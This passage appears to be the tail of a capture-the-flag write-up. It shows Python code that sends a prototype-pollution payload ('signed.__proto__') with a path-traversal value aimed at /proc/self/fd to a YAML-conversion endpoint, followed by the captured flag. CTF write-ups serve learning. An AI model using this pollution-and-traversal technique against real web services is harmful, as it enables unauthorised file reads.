 ```python
    "signature": base["signature"]
}

r = requests.post(
    f"{url}/convert-to-yaml", json=payload
)

base["data"]["signed.__proto__"]["outputPrefix"] = "../../proc/self/fd/3\\x"
r = requests.post(
    f"{url}/convert-to-yaml", json=payload
)
```    

### Flag    
DUCTF{bUnBuNbUNbVN_hOn0_tH15_aPp_i5_d0n3!!!one1!!!!}     
               
